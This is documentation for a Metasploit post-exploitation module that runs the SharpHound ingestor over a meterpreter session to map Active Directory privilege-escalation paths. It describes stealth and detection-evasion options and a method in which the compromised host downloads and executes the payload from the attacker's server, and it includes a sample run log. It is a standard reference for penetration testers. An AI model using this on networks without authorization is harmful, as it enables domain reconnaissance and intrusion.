 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilage elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

  **CollectionMethode**

  The collection method to use. This parameter accepts a comma separated list of values. Accepted values are Default, Group,
  LocalAdmin, RDP, DCOM, GPOLocalGroup, Session, ObjectProps, ComputerOnly, LoggedOn, Trusts, ACL, Container, DcOnly, All.
  The default method is `Default`.

  **Domain**

  Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

  **SearchForest**

  Expands data collection to include all domains in the forest. The default value is `false`.

  **Stealth**

  Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

  **SkipGCDeconfliction**

  Skips Global Catalog deconfliction during session enumeration. This option can result in more inaccuracy in data.
  The default value is `false`.

  **ExcludeDC**

  Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

  **OU**

  Limit enumeration to this OU. Takes a DistinguishedName.

  **DomainController**

  Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

  **LdapPort**

  Override the port used to connect to LDAP.

  **SecureLdap**

  Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

  **IgnoreLdapCert**

  Ignores the certificate for LDAP. The default value is `false`.

  **LDAPUser**

  User to connect to LDAP with.

  **LDAPPass**

  Password for user you are connecting to LDAP with.

  **DisableKerbSigning**

  Disables Kerberos Signing on requests. The default value is `false`.

  **Threads**

  Specifies the number of threads to use during enumeration. The default value is `10`.

  **PingTimeout**

  Specifies timeout for ping requests to computers in milliseconds. The default value is `259`.

  **SkipPing**

  Skip all ping checks for computers. This option will most likely be slower as API calls will be made to all computers regardless of
  being up Use this option if ping is disabled on the network for some reason. The default value is `false`.

  **LoopDelay**

  Amount of time to wait between session enumeration loops in minutes. This option should be used in conjunction with
  the `SessionLoop` enumeration method. The default value is `300`.

  **MaxLoopTime**

  Length of time to run looped session collection. Format: 0d0h0m0s or any variation of this format.
  Use in conjunction with `-CollectionMethod SessionLoop`. Default will loop for two hours.

  **JSONFolder**

  Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

  **Method**

  Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
      payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the sharphound.ps1
     file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

  **EncryptZip**

  If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

  **NoSaveCache**

  If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

```
meterpreter > run post/windows/gather/bloodhound

[*] Using URL: http://0.0.0.0:8080/bvqUdtHUQ4De1O3
[*] Local IP: http://192.168.1.136:8080/bvqUdtHUQ4De1O3
[*] Invoking BloodHound with: Invoke-BloodHound -CollectionMethod Default -Threads 10 -JSONFolder "C:\Windows\TEMP" -PingTimeout 250 -LoopDelay 300 
[*] Initializing BloodHound at 6:44 AM on 4/29/2019
[*] Resolved Collection Methods to Group, LocalAdmin, Session, Trusts
[*] Starting Enumeration for uplift.local
[*] Status: 58 objects enumerated (+58 �/s --- Using 58 MB RAM )
[*] Finished enumeration for uplift.local in 00:00:00.6365050
[*] 0 hosts failed ping. 0 hosts timedout.
[*] 
[*] Compressing data to C:\Windows\TEMP\20190429064444_BloodHound.zip.
[*] You can upload this file directly to the UI.
[*] Finished compressing files!
```
